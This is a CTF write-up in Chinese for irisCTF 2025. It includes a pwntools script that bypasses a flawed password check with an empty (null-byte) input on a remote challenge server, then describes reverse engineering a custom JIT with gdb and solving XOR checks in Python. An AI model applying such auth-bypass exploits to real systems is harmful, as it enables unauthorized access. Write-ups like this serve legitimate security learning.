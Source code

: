 ```yaml
---
title: irisCTF 2025
author: Mercury
date: 2025-02-26 21:17:00 +0800
categories: [CTF Writeup]
tags: [pwn, Reverse]     # TAG names should always be lowercase
description: 第一次釋出自己寫的 writeup 而且又是沒有表現地特別好的比賽，挺可怕的。
---
```


> 偷翻了一下時間發現這還是今天一月初寫的，~~感覺我懶癌已經沒救了~~ 。

## information

Ranking: `242nd / 1063`

CTFtime: [https://ctftime.org/event/2503](https://ctftime.org/event/2503)
> 忘記截圖了 QQ

<hr/>

## sqlate

連著神奇本地sqlite的資料庫，目標函數是 `action_sys()` ，不過會驗權限和 `userId`。

```c
if (!check_permissions(permission_root)) continue;
action_sys();
```

```c
void action_sys() {
  system("/usr/bin/cat flag");
}
```

一開始看到這兩個 `struct` 感覺是heap題。
```c
struct paste {
  int rowId;
  char title[256];
  char language[256];
  char content[256];
};

  

struct user {
  int userId;
  uint64_t flags;
  char username[256];
  char password[256];
};
```
最後發現在登入的時候密碼只會比對和輸入一樣長度的字元。
```c
void action_login() {
  // Currently only admin login
  read_to_buffer("Password?");
  unsigned long length = strlen(line_buffer);
  for (unsigned long i = 0; i < length && i < 512; i++) {
    if (line_buffer[i] != admin_password[i]) {
      printf("Wrong password!\n");
      return;
    }
  }

  strcpy(current_user.username, "admin");
  current_user.userId = 0;
  current_user.flags = 0xFFFFFFFF;
}
```

所以直接輸入一個長度為0的的字串使迴圈的條件一開始就不成立。
```python
from pwn import *

# p = process('./vuln')
p = remote('sqlate.chal.irisc.tf', 10000)

# Login option
p.recvuntil(b'> ')
p.sendline(b'5')

# Enter password length is 0
p.recvuntil(b': ')
p.sendline(b'\x00')

# Hidden option cat flag
p.recvuntil(b'> ')
p.sendline(b'7')
flag = p.recvline()

p.close()

print(flag.decode('utf-8'))
```

<hr/>


## Now this will run on my 486?

`.data` 段有一個放他自己創造的 machine code，他透過 `SIGILL` 時的handler實作 JIT編譯器。用來把他的機器編譯成x86-64。

```c
  local_438.sa_flags = 4;
  local_438.__sigaction_handler.sa_handler = FUN_001012c8;
  sigaction(4,&local_438,(sigaction *)0x0);
```

所以我決定透過動態分析取得編譯後的 machine code。

先在SIGILL 時設置斷點
```sh
(gdb) handle SIGILL stop
```

進到 handler 後直接去到 ret
```sh
(gdb) fin
```

之後繼續執行
```sh
(gdb) ni
```

裡面包含多組 `cmp` 及 `ret` 的邏輯
```assembly
	cmp    eax,edx
	setne  al
	movzx  eax,al
	test   eax,eax
	je     0xe0
	mov    eax,0x2
	ret
```

為了獲得完整的 machine code，在 `ret` 前將 `rip` 改成 `je` 跳到的 address
```sh
(gdb) set $rip = <addr>
```

最後dump出來
```sh
(gdb) dump memory memdump.bin <start_addr> <end_addr>
```

把裡面多餘的 `nop` 刪除掉後用 `objdump` 反組譯成 assembly
```sh
objdump -D -b binary -m i386:x86-64 memdump.bin --no-show-raw-insn -Mintel > o.asm
```

懶得去看組語所以我讓GPT幫我反編譯
```c
#include <stdint.h>
#include <unistd.h>

int main() {
    // 內存準備
    uint32_t *memory = (uint32_t *)(0x1000 + (uintptr_t)r8);

    // 初始化數據
    memory[0] = 0x67616c66;  // "flag" 的 ASCII 值
    memory[1] = 0x203f;      // 設置內存 0x1004

    // 輸出初始數據（類似 write 系統調用）
    write(1, &memory[0], 6);

    // 從輸入讀取數據（類似 read 系統調用）
    read(0, &memory[0x2000], 32);

    // 初始化變數
    uint32_t checksum = 0;
    for (int i = 31; i >= 0; i--) {
        // 從 0x2000 開始計算 checksum
        checksum += (memory[0x2000 + i] & 0xFF);
    }

    // 比較 checksum
    if (checksum != 0xCFF) {
        return 1;
    }

    // 比較存儲的哈希值
    if ((memory[0x2000] ^ 0xBF51B0D7) != 0xCC38C2BE) {
        return 2;
    }
    if ((memory[0x2004] ^ 0x75CC547B) != 0x0EAA2018) {
        return 3;
    }
    if ((memory[0x2008] ^ 0x4F0FD83A) != 0x1078B74D) {
        return 4;
    }
    if ((memory[0x200C] ^ 0xA2117744) != 0xDB631232) {
        return 5;
    }
    if ((memory[0x2010] ^ 0xECD0CEC6) != 0x98A0A199) {
        return 6;
    }
    if ((memory[0x2014] ^ 0x2E19F9FA) != 0x42789493) {
        return 7;
    }
    if ((memory[0x2018] ^ 0x32EA83D9) != 0x5685E086) {
        return 8;
    }
    if ((memory[0x201C] ^ 0xE5EB61E0) != 0x98CA4085) {
        return 9;
    }

    return 0;
}
```

之後透過 `xor` 的特性 `a ^ b = c, b ^ c = a` ，算出了原本的值
```python
# 已知值的計算
hash_values = [
    (0xBF51B0D7, 0xCC38C2BE),
    (0x75CC547B, 0x0EAA2018),
    (0x4F0FD83A, 0x1078B74D),
    (0xA2117744, 0xDB631232),
    (0xECD0CEC6, 0x98A0A199),
    (0x2E19F9FA, 0x42789493),
    (0x32EA83D9, 0x5685E086),
    (0xE5EB61E0, 0x98CA4085),
]

# 計算前 8 個值
memory = [a ^ b for a, b in hash_values]

# 補充剩餘字節讓校驗和滿足條件
checksum_target = 0xCFF
current_checksum = sum(value & 0xFF for value in memory)
remaining_bytes = checksum_target - current_checksum

# 將剩餘字節填充到輸入
input_data = []
for value in memory:
    input_data += [(value >> (i * 8)) & 0xFF for i in range(4)]
input_data += [remaining_bytes]

# 輸出最終輸入
for i in input_data:
    print(chr(i),end="")
```
